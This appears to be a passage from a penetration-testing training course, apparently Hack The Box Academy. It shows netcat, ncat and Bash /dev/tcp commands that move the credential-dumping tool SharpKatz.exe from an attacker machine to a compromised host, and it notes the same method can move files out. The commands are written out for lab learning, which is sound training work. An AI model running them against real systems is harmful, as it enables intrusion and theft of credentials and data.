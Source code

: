 
## 1
**Note:** The same operation can be used to transfer files from the compromised host to our Pwnbox.

```shell-session
AhmaDb0x@htb[/htb]$ # Example using Original Netcat
AhmaDb0x@htb[/htb]$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

```shell-session
victim@target:~$ # Example using Original Netcat
victim@target:~$ nc 192.168.49.128 443 > SharpKatz.exe
```

## 2
```shell-session
AhmaDb0x@htb[/htb]$ # Example using Ncat
AhmaDb0x@htb[/htb]$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

```shell-session
victim@target:~$ # Example using Ncat
victim@target:~$ ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```

```shell-session
victim@target:~$ cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```
If we don't have Netcat or Ncat on our compromised machine, Bash supports read/write operations on a pseudo-device file [/dev/TCP/](https://tldp.org/LDP/abs/html/devref1.html).